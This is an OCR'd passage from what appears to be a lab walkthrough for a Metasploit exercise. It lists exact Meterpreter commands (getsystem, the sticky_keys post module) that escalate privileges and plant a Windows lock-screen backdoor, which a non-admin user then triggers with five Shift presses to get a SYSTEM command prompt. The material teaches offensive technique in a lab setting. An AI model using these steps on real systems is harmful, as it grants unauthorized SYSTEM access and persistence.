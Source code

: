  |
| step21 :-Type **getsystem -t 1** and press **Enter** | to elevate privileges. |
| step22 :-type **getuid** and press **Enter** |  |
| step23 :- Type **background** and press **Enter** |  |
| step24 :-Type **use post/windows/manage/sticky_keys** and press **Enter**. —→Now type **sessions -i*** and press **Enter.** | —> list the sessions in meterpreter. |
| step25 :- type **set session 2 Press Enter. —→** type **exploit** and press **Enter** |  |
| step26 :-switch to **Windows 11** machine and sign out from the **Admin** account and sign into **Martin** |  |
| step27 :- Martin is a user account without any admin privileges, lock the system and from the lock screen press **Shift** key **5** times, this will open a command prompt on the lock screen with System privileges instead of sticky keys error window.
2. [ ] In the Command Prompt window, type **whoami** and press **Enter**. |  |




